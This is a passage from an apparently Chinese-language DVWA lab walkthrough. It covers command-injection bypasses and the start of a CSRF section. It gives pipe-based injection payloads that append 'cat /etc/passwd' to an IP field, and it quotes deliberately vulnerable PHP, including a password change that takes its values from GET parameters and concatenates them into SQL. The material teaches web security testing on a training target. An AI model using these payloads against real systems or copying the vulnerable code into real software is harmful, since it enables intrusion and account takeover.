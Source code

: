 这个管道符是 | 是带空格的，所以这里我们不使用空格的话依然可以绕过

```
127.0.0.1 |cat /etc/passwd
127.0.0.1|cat /etc/passwd
```

###  Impossible

```php
	$target = $_REQUEST[ 'ip' ];
	$target = stripslashes( $target );

	// Split the IP into 4 octects
	$octet = explode( ".", $target );

	// Check IF each octet is an integer
	if( ( is_numeric( $octet[0] ) ) && ( is_numeric( $octet[1] ) ) && ( is_numeric( $octet[2] ) ) && ( is_numeric( $octet[3] ) ) && ( sizeof( $octet ) == 4 ) ) {
		// If all 4 octets are int's put the IP back together.
		$target = $octet[0] . '.' . $octet[1] . '.' . $octet[2] . '.' . $octet[3];

		// Determine OS and execute the ping command.
		if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
			// Windows
			$cmd = shell_exec( 'ping  ' . $target );
		}
		else {
			// *nix
			$cmd = shell_exec( 'ping  -c 4 ' . $target );
		}

		// Feedback for the end user
		$html .= "<pre>{$cmd}</pre>";
	}
```

检查每一个是否是数字，不好绕过了。

## CSRF

###  Low

```php
$pass_new  = $_GET[ 'password_new' ];
$pass_conf = $_GET[ 'password_conf' ];

if( $pass_new == $pass_conf ):
    $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" .     dvwaCurrentUser() . "';";
```

源码中可以是 GET 方式获取密码，两次输入密码一致的话，然后直接带入带数据中修改密码。这种属于最基础的 GET 型 CSRF.
